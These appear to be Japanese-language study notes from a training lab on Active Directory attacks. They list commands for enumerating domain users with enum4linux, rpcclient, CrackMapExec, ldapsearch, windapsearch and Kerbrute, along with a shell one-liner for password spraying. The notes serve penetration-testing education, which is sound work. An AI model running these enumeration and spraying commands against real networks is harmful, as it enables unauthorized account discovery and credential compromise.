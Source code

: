 enum4linux
```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

rpcclient
```shell-session
rpcclient -U "" -N 172.16.5.5
$> enumdomusers 
```

CrackMapExec
```shell-session
crackmapexec smb 172.16.5.5 --users
```

ldapsearch
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

windapsearch
- 独自のLDAP検索フィルターを作成する方法を理解する必要
- `-u`フラグと`-U`フラグが付いた空白のユーザー名を提供することで、匿名アクセスを指定して、ツールにユーザーのみを取得する
```shell-session
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

Kerbrute
- [Kerberos Pre-Authentication](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication)を使用しているので、ログオンの失敗を引き起こすことはなく、アカウントをロックアウトすることはない
- [statistically-likely-usernames GitHubリポジトリ](https://github.com/insidetrust/statistically-likely-usernames)を使うことで、Kerbrute を使って有効なユーザー名を列挙するために使える
- もし、これで見つからなかった場合は、辞書ファイルを変更する必要がある
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
- `userenum`：ユーザー列挙モード
- `-d inlanefreight.local`：対象の **ドメイン名**
- `--dc 172.16.5.5`：対象の **ドメインコントローラのIPアドレス**
- `/opt/jsmith.txt`：ユーザー名候補の辞書ファイル

もし、一つでも有効な認証情報があるなら、CrackMapExecでユーザーリストを作れる
```shell
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
出力

|             |                        |
| ----------- | ---------------------- |
| badPwdCount | 失敗したログイン試行のカウント        |
| badPwdTime  | 最後にパスワードが間違えられた時刻（UTC） |
| lastLogon   | 最後に成功したインタラクティブログオンの時刻 |
### パスワードスプレーの実行
#### Linux
rpcclient
- 普通では、ログインが失敗したか成功したかはわからない
- ログイン成功時の応答には Authority Name が含まれるため、それを使って成功したログインを判定する
この性質を使って、シェルワンライナーを書ける
```sh
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

